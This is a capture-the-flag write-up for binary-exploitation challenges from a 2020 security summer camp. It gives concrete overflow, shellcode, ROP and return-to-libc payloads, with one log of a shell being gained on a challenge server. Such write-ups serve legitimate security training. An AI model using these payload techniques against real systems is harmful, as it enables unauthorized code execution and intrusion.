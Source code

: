 # CyberSec summercamp 2020 
## pwn-ctf

## Challenges

### 張元Pwn-6 (50 pts)

First find the magic in binary file , then solve 1000 math questions with loop

Switch to interactive to `cat flag`

### 張元Pwn-7 (50 pts)

This challenge requires a little bit Reversing basic

#### stage1
We can see a simple `if` statement in function `stage1()`, as shown below:
    
    0x0040077d      8b45f4         mov eax, dword [var_ch]
    0x00400780      83e001         and eax, 1
    0x00400783      85c0           test eax, eax
    0x00400785      7434           je 0x4007bb
    0x00400787      8b45f4         mov eax, dword [var_ch]
    0x0040078a      2500001000     and eax, 0x100000
    0x0040078f      85c0           test eax, eax
    0x00400791      7428           je 0x4007bb
    0x00400793      8b45f4         mov eax, dword [var_ch]
    0x00400796      2500020000     and eax, 0x200              
    0x0040079b      85c0           test eax, eax
    0x0040079d      751c           jne 0x4007bb

we can try changing it into a C-like `if` statement:

`if ((var_ch & 1) != 0 && ((var_ch & 0x100000) != 0 && (var_ch & 0x200) == 0))`

base on this, we can write a keygen to crack `var_ch` in stage1

#### stage2

We can see it's trying to get three numbers from user input:

    0x00400810      e80bfeffff     call sym.imp.__isoc99_scanf
    0x00400815      8b45ec         mov eax, dword [var_14h]
    0x00400818      83f864         cmp eax, 0x64               
    0x0040081b      7530           jne 0x40084d
    0x0040081d      8b45f0         mov eax, dword [var_10h]
    0x00400820      3d00010000     cmp eax, 0x100              
    0x00400825      7526           jne 0x40084d
    0x00400827      8b45f4         mov eax, dword [var_ch]
    0x0040082a      3d0cb0cefa     cmp eax, 0xfaceb00c
    0x0040082f      751c           jne 0x40084d

based on the disassembly, we get three integers, 0x64, 0x100 and 0xfaceb00c


#### stage3

Again, the binary is comparing user input with a global varible

we can get the value of the varible(0x60107c) in the binary

send the numbers, and we get a shell

    [+] Opening connection to 139.110.112.192 on port 2117: Done
    [*] Switching to interactive mode
    Stage 2 completed
    Congrat! Here is your shell!
    $ cat flag
    BreakAllCTF{A_g-01d_h4cker_15_f4m1liar_w1th_b1n4ry_5ystem}

### 張元Pwn-8(50 pts)

From the assembly, we can see a shell function at `0x4006b6`

simply overwrite the return address as `0x4006b6`, we get a shell

### Angelboy Pwn-1(50 pts)

Same as the previous challenge, but this time the stack size is `0x20`

### Angelboy Pwn-2(50 pts)

Same as the previous challenge, but we're going to jump to our own shellcode instead of the given shell funvtion

we can write the shellcode in the `Name` varible(because the shellcode made by `shellcraft()` is only 44 bytes)


then we can overwrite the return pointer to jump to our shellcode(at `Name`)

### 張元 Pwn-1(100 pts)

This is an varible overwrite challenge

we can see that the  binary is trying to compare some varible to `0xfaceb00c` and `0xdeadbeef`

simply overwrite these two numbers by sending a payload like this:

`'A' *12 + p32(0xfaceb00c) + p32(0xdeadbeef)`

then we see that the program is comparing our input with a random number 

we can adjust our payload, to overwrite the random number to a known integer

in my exploit, my  paylaod is :

`'A' * 12 + p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x12345678)`

now we know the password(0x12345678), then we can pass it easily and get a shell

### 張元 Pwn-9(100 pts)

This challenge is similar to `Angelboy Pwn-2`, but the stack location is randomized

but the binary still gives us the `RSP`:

`Your address of input buffer is 0x7fff38a14c30`

now we get the RSP, we can try making a payload like this:

`asm(shellcraft.sh()) + 'A' * (0x70 + 8 - len(asm(shellcraft.sh()))) + p64(rsp)`

send the payload, and we get a shell

### 張元 Pwn-10(100 pts)

This is a simple ROP challenge

we can first put string `/bin/sh` in the first varible

then, we try to craft a payload to bypass NX

our payload will be like :

`(some padding) + (pop rdi) + "/bin/sh" address + system() address`

from the disassembly, we know that this binary contains `system()` function:

`0x004006bf      e86cfeffff     call sym.imp.system`

after we put system() in stack, we have to pop "/bin/sh" to rdi

let's find some gadget using `ROPgadget`

`0x0000000000400773 : pop rdi ; ret`

our final payload looks like this:

`'A' * (48 + 8) + p64(0x0000000000400773) + p64(0x601070) + p64(0x004006bf)`

### Angelboy Pwn-3(100 pts)

This is a classic `return to libc` challenge

we're going to use a great tool called `one_gadget`, this way we won't have to craft a complicated payload by ourselves

our payload will be like:

`(some padding) + (the address that one_gadget give us)`

first, there is a memory leaking function in this program:

`Give me an address (in hex) :`

we can give the program the `got` address of `puts`

then it'll return a address, which is the address of `puts` in libc

we can get the target libc base address by doing `puts_addr - offset`

let's find the offset first(with readelf):

`404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5`

then use `one_gadget` to find the address to jump:

 `0x45216 execve("/bin/sh", rsp+0x30, environ)`


now we get the address, let's craft our payload:

`'A'* (0x110 + 8) + p64((libc_base + 0x45216)) ` 


### other

TBD
